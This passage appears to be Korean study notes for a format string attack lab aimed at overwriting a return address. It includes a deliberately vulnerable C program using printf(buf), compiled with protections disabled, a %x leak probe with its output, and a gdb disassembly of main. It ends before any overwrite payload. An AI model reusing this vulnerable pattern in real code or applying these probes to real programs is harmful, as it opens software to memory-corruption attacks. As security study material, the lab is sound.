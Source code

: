 ## Format String Attack

### Format String Attack 실습 1(Return Address)
```C
#include<stdio.h>
#include<string.h>

int main(int argc, char *argv[])
{
        char buf[20];

        strcpy(buf, argv[1]);
        printf(buf);
}
```
fsb1 프로그램은 argv[1]의 문자열을 buf로 복사하고 printf() 함수로 buf를 출력하는 프로그램이다. printf() 함수에서 Format String Buf 취약점이 발생한다.
이 프로그램에서는 두 가지의 Return Address를 공격할 수 있다. **main()함수의 Return Address**와 **printf()함수의 Return Address**이다.
먼저 main()함수의 Return Address부터 공격해보았다.
```
yoojin@ubuntu:~/Study/System/BOF$ gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack -no-pie -o fsb1 fsb1.c
fsb1.c: In function ‘main’:
fsb1.c:9:9: warning: format not a string literal and no format arguments [-Wformat-security]
  printf(buf);
         ^
yoojin@ubuntu:~/Study/System/BOF$ ./fsb1 "AAAA %x %x %x %x"
AAAA 41414141 20782520 25207825 78252078
```
컴파일 후 실행하여 포맷 스트링 취약점을 확인해 보면 위와 같이 %x 서식 지정자를 입력하니 스택 안의 주소 값들이 출력되었다.
입력한 문자열 "AAAA"가 바로 이어 나온다.
```
yoojin@ubuntu:~/Study/System/BOF$ gdb -q fsb1
warning: ~/peda.peda.py: No such file or directory
Reading symbols from fsb1...(no debugging symbols found)...done.
gdb-peda$ pd main
Dump of assembler code for function main:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x14
   0x08048441 <+6>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048444 <+9>:	add    eax,0x4
   0x08048447 <+12>:	mov    eax,DWORD PTR [eax]
   0x08048449 <+14>:	push   eax
   0x0804844a <+15>:	lea    eax,[ebp-0x14]
   0x0804844d <+18>:	push   eax
   0x0804844e <+19>:	call   0x8048310 <strcpy@plt>
   0x08048453 <+24>:	add    esp,0x8
   0x08048456 <+27>:	lea    eax,[ebp-0x14]
   0x08048459 <+30>:	push   eax
   0x0804845a <+31>:	call   0x8048300 <printf@plt>
   0x0804845f <+36>:	add    esp,0x4
   0x08048462 <+39>:	mov    eax,0x0
   0x08048467 <+44>:	leave  
   0x08048468 <+45>:	ret    
End of assembler dump.
```
main()함수의 Return Address를 알아내기 위해 gdb로 분석해보았다. esp를 0x14만큼 빼고 있따. buf 변수를 할당하는 명령문이다.
그리고 strcpy() 함수 호출을 위한 argv[1]과 buf의 주소를 스텍에 PUSH하고 strcpy() 함수를 호출한다.
그리고 다시 printf() 함수 호출을 위한 buf의 주소를 PUSH하고 printf() 함수를 호출한다.
```
